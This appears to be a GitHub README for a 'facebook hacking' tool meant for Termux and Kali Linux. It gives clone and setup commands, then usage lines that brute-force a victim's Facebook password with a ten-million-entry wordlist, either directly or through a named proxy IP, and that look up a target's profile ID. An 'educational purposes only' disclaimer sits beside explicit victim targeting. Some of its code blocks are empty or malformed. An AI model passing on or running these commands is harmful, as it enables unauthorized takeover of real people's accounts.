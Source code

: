 ### **Language is used to Make this tool**

- python
### **The Tool is for .** 
**Commands to run tool in ur terminal Termux && Kali Linux**

_facebook hacking_ 👍🏼
![_5619ffb8-062e-495f-8d5c-6b8e61313e3f](
)

> installation
`Note : Tool is Made of Educational Purposes only.
      Please try not to harm anyone device 
      it's For Fun Purpose Not For Revenge
      (Join Us https://asifgk.website3.me)`
```python
apt update && apt upgrade -y
``` 
```python
apt install git -y
``` 
```python
git clone https://github.com/mdaminulislamasif/facebook-hack.git
``` 
```python
cd Facebook_hack
``` 
```python
bash setup
``` 
```python
```python

``` 
``` 
### **usage:)**

- U can Use Victim email Or Facebook Profile Id:
- Brute Force On Facebook Account Without proxy:
- Command: python facebook_hack.py -t [victim@gmail.com](mailto:victim@gmail.com) -w 10MPASS.txt
- Brute Force On Facebook Account With Proxy:

- [ ] Command: python facebook_hack.py -t [victim@gmail.com](mailto:victim@gmail.com) -w 10MPASS.txt -p 144.217.101.245:3129
- [ ] Get Target Facebook Profile ID:
- [ ] Command: python facebook_hack.py -g https://www.facebook.com/zuck
